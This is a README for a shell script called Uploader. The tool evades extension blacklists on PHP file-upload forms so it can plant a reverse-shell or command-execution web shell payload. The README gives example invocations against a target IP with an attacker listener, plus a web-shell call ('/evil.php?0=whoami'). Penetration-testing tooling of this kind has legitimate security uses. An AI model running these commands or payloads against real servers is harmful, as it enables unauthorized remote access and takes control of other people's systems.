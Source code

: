 # Uploader
A simple shell script that attempts to bypass extension blacklists for file uploads. If no arguments are provided it will default to interactive mode.

## Usage

  `-h`: Display this help message
	`-i <IP_Addres>`: The IP Address to use for the Reverse Shell payload (i.e. your interface)
	`-p <PORT>`: The port that your listener is running on
	`-u <URL>`: The target URL that's used in POST Requests to upload a file
	`-n <NAME>`: The 'name' attribute that's used in POST Requests (e.g. `file` for name="file")
	`-e <URL>`: Exploit mode. Attempts to automatically trigger a Reverse Shell. Enter the URL where uploaded files are saved to.
	`-b`: Basic payload instead of a Reverse Shell. Provide commands as the value of the 0 parameter (e.g. `/evil.php?0=whoami`) . Incompatible with `-e`

 For example,

 `./uploader.sh -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -e http://10.10.40.117/uploads/`
 `./uploader.sh -i 12.345.67.89 -p 1337 -u http://10.10.40.117/panel/ -n fileUpload -b`

## Functionality
As of now, Uploader is only designed for PHP based Web Applications that have file upload functionality using a POST request to send Boundary (multipart) Data.

The Reverse Shell payload works against Linux machines.

## In Development
This will eventually be integrated into the Ares toolsuite (https://github.com/Komodo-pty/ares-attack)

The following will be added in subsequent updates:

1) Support for more languages
2) Support for more types of file uploads
3) More types of upload bypasses
4) Payloads for Windows
